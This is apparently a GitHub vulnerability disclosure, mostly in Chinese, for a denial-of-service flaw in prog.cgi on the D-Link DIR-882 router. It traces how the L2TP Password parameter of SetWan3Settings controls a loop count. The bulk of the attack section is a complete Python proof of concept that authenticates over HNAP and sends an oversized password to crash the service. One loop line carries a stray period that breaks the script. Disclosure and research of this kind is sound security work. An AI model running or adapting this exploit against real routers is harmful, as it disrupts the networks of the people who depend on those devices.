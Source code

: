 # Dlink DIR-882 DOS漏洞
## Overview
- 厂商官网：https://support.dlink.com/index.aspx 
- 固件下载地址：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
Dlink DIR-882_A1_FW1.30B06fix03中存在DOS漏洞，可导致prog.cgi崩溃。

## Affected version
![](pic/version.png "")
图示为路由器的最新固件:A1_FW1.30B06fix03
## Vulnerability details
在网上可以找到的固件版本是1.30。

![](pic/web.png "")

在prog.cgi中，我们可以在sub_46C6CC设置L2TP功能的代码中找到细节，程序将/SetWan3Settings/Password参数获取的内容传递给V47.

![](pic/code1.png "")

V47参数由decrypt_aes()函数调用。在decrypt_aes()函数中，它被传递给sub_427184()。

![](pic/code2.png "")

在函数sub_427184()中，传入参数的长度被调用作为两个for循环中的循环次数。

![](pic/code3.png "")

所以循环次数是可控的，如果循环次数足够长，就会导致dos。
## Vulnerability exploitation condition
登录后需要获取cookie才能执行攻击。

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1. 连接物理设备
2. 使用以下POC攻击进行攻击

Poc is as follows
```python
import math
import re
import time
from hashlib import md5

import requests
IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())


def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b


for i in range(REPEAT_TIMES):.
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}', data=payload, headers=headers)

    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)

    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()

    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')
    data_password = 'A' * 230
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWan3Settings xmlns="http://purenetworks.com/HNAP1/">
			<Type>DynamicL2TP</Type>
			<Username>test</Username>
			<Password>{data_password}</Password>
			<MaxIdleTime>0</MaxIdleTime>
			<HostName/>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName></ServiceName>
			<AutoReconnect>true</AutoReconnect>
			<IPAddress></IPAddress>
			<SubnetMask/>
			<Gateway/>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU>1492</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWan3Settings>
	</soap:Body>
</soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetWan3Settings"'
    headers['HNAP_AUTH'] = hnap_auth("SetWan3Settings", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
运行poc后，prog.cgi的进程号发生了变化，说明prog.cgi已经重启，正常的数据包不会引起进程变化。
运行前:

![](pic/a1.png "")

运行后：

![](pic/a2.png "")

## CVE-ID
unsigned
